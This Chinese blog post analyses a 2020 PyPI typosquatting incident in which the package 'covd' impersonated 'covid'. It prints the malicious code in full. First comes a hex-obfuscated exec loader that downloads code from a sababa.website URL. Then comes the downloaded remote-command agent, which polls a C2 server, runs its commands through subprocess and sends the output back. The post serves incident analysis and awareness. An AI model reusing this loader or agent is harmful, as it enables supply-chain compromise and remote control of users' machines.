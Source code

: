 ```yaml
---
title: pypi的官方包covid投毒事件
tags:
  - python
  - 安全
categories:
  - 安全
copyright: true
permalink: pypi的官方包covid投毒事件
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-11-18 21:09:05
---
```


腾讯发现pypi的官方包投毒事件https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651202917&idx=1&sn=d3ea45078ee4e311214b1209c0487801
<!--more-->


第一时间看了下，这已经不是第一次遭遇投毒了，上次还是更有名的requests的投毒，就少拼写一个字符。

这次是利用疫情期间的有人编写covid库，方便获取实时的疫情信息状态。


## 0x01 事件描述

11月16号 17:02 攻击者在PyPI官方仓库上传了`covd` 恶意包，该恶意包通过伪造`covid`包名进行钓鱼，攻击者可对受感染的主机进行入侵，并实施种植木马、命令控制等一系列活动，其中恶意代码存在于`1.0.2/4`版本中。

正常 covid 包的功能是获取约翰斯·霍普金斯大学和worldometers.info提供的有关新型冠状病毒的信息，每天的安装量上千次。在新冠疫情在世界流行的大背景下，`covid`包因输错包名而被误装为covd钓鱼包的数量将会不断增加。

## 复现内容
然后去复现了一下。

这里文章中给出的版本号是`1.0.4`

去官网找到`covd`的源码https://pypi.org/project/covd/，发现已经更新到`1.0.5`版本，将其最新版本下载，然后再下载一个历史版本https://pypi.org/project/covd/#history，看到原作者在16号-17号短短两天就添加了5个版本。下载`1.0.4`版本。

另外下载了https://pypi.org/project/covid/ 的源码进行对比。


使用解压文件获得源码，在`1.0.4`中的`__init__.py`文件中显示

```
__license__ = "MIT"
__version__ = "1.0.4"

try:
    getattr(builtins, bytes.fromhex('65786563').decode())(r.get(bytes.fromhex('687474703a2f2f612e7361626162612e776562736974652f676574').decode()).text)
except:
    pass

```

使用hex解码
```
65786563
exec
```
```
687474703a2f2f612e7361626162612e776562736974652f676574
http://a.sababa.website/get
```

通过builtins内置函数exec执行requests方法下载get文件内容，其中get文件的内容为：

```
def __agent():
    try:
        from urllib import request
        import json
        import subprocess
        while True:
            req = request.Request("https://sababa.website/api/ready", method="POST")
            r = request.urlopen(req)
            response = r.read()
            if response:
                task = json.loads(response.decode())
                try:
                    process = subprocess.Popen(task['command'], stderr=subprocess.PIPE, stdout=subprocess.PIPE, cwd=task.get('working_directory'))
                    stdout, stderr = process.communicate()
                    stdout = stdout.decode()
                    stderr = stderr.decode()
                    exit_code = process.wait()
                except Exception as e:
                    stdout = ''
                    stderr = str(e)
                    exit_code = 155

                data = {'task': task, 'exit_code': exit_code, 'stdout': stdout, 'stderr': stderr}
                data = json.dumps(data).encode()
                request.urlopen(request.Request('https://sababa.website/api/done', method="POST"), data=data)

    except Exception as e:
        raise

import threading
threading.Thread(target=__agent, daemon=True).start()
```

这个文件会立即启动一个线程，执行__agent函数

⽊⻢会循环向命令C2服务器( https://sababa.website/api/ready ) 询问需要执⾏的命令，并将命令执⾏的结果以json的形式 返回给另⼀个命令C2服务器(https://sababa.website/api/done ) 。


投毒的常见手法：
eval 执行一段话的明文木马
exec 执行一段加密的木马文本
